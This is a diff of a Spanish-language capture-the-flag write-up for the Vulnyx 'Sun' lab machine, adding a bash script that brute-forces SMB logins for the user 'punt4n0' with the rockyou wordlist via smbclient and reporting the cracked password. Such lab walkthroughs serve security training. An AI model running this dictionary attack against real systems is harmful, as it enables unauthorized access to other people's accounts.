

Before and after one commit to Koh4kU/Writeups, a Markdown page: Vulnyx/Sun/writeup.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Vulnyx/Sun/writeup.md
+++ b/Vulnyx/Sun/writeup.md
@@ -161,6 +161,25 @@ S-1-5-21-3376172362-2708036654-1072164461-1000 SUN\punt4n0 (Local User)
 Podemos enumerar la página web e intentar analizarla viendo el código html de la página, pero no nos dará muchas pistas y es malgastar tiempo.
 ### Weaponization ###
 Observamos un usuario llamado "punt4n0", sabiendo esto y que la política de complejidad de contraseña es muy débil podemos intentar un ataque de diccionario por SMB. Al no haber podido realizar esto con Hydra (debido a que no soporta SMBv1), nos creamos un pequeño script en bash para realizar este ataque: [Script bash dictionary attack](https://github.com/AlexGis99/Writeups/blob/main/Vulnyx/Sun/scripts/dictionaryAtt_smb.sh)
+```console
+#!/bin/bash
+
+INTENTO=0
+STRING="#"
+
+for i in $(cat /usr/share/wordlists/rockyou.txt)
+do
+	PERCENT=$((INTENTO * 100 / 14344392))
+	[ $((INTENTO % 50)) -eq 0 ] && STRING="${STRING}#" && echo -n -e "\r\t$PERCENT% $STRING"
+	smbclient -L //192.168.1.13/ -U "punt4n0%$i" >/dev/null
+	if [ $? -eq 0 ]
+	then
+		echo -e "$INTENTO:\t$i"
+		exit 0
+	fi
+	INTENTO=$((INTENTO+1))
+done
+```
 El script nos devuelve una contraseña: "sunday". En este caso hemos creado un script muy sencillo de bash que nos ha funcionado en poco tiempo, en caso de que esto se fuese de tiempo, tendríamos que agilizar la ejecución utilizando varios hilos o procesos.
 Ya que tenemos la contraseña, podemos entrar en la máquina con SMB o para hacerlo más sencillo y cómodo, podemos montarnos una partición con el share del usuario:
 ```console
````
